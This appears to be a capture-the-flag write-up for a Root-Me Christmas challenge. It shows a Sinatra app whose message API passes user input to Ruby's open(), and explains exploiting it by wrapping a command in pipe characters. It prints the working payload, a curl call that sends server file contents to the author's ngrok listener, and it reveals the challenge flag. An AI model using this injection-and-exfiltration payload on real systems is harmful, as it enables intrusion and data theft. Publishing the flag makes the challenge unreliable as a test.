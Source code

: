 # Santa Sweet Words (day18)

<p align="center"><img src="Screenshots/S1.png" alt="Desc"></p>

<p align="justify">In this challenge a ruby website was deployed, and the goal was to read the flag on the server machine, located in /. The source code was available to download and is attached below :</p>

````ruby
require 'sinatra'

set :bind, '0.0.0.0'
set :show_exceptions, false
set :environment, :production

get '/' do
  send_file File.join(settings.public_folder, 'index.html')
end

get '/love' do
    send_file File.join(settings.public_folder, 'love.html')
end

get '/api/message' do
  number = params[:number]

  file_name = "#{number}.txt"

  content = open(file_name, "rb") { |f| f.read }
  content_type 'application/octet-stream'
  attachment file_name
  body content
end

get '/source' do
  content_type 'text/plain'
  File.read(__FILE__)
end
````

<p align="justify">After a quick read, it appeared to me that the vulnerability was located in the message API, which was taking a 'number' parameter and concatenating '.txt' to it for file download. Because of the extension added to the filename a simple local file inclusion thanks to path traversal payload wasn't exploitable. After a few read I found (<a href="https://cheatsheetseries.owasp.org/cheatsheets/Ruby_on_Rails_Cheat_Sheet.html">doc)</a> it was possible to run commands and escape the filename handled with the open() method, using | char. Hence what I've tried at first was to escape the filename variable with only one | . Nonetheless as shown below, It only triggered download of an empty file the name of my command :</p>  

<p align="center"><img src="Screenshots/S2.png" alt="Desc"></p>


<p align="justify">Actually it was caused by the append of .txt at the end of the payload. After a few tries, I  finally came up with the exploit below consisting in putting the paylaod between 2 pipe char : | payload |. Hence what I've done had been to open a listening port on my machine, and then sent the content of the flag to my server with the request below :</p>

````bash
https://day18.challenges.xmas.root-me.org/api/message?number=|curl http://ngrokFQDN:port/($cat /*)|

````
And I finaly received the flag !  
<p align="center"><img src="Screenshots/S4.png" alt="Desc"></p>

Flag : _RM{Why_d0esn't_Open_Ju5t_Op3n_in_rUbY??}_ , thanks _Elweth_ for this challenge !
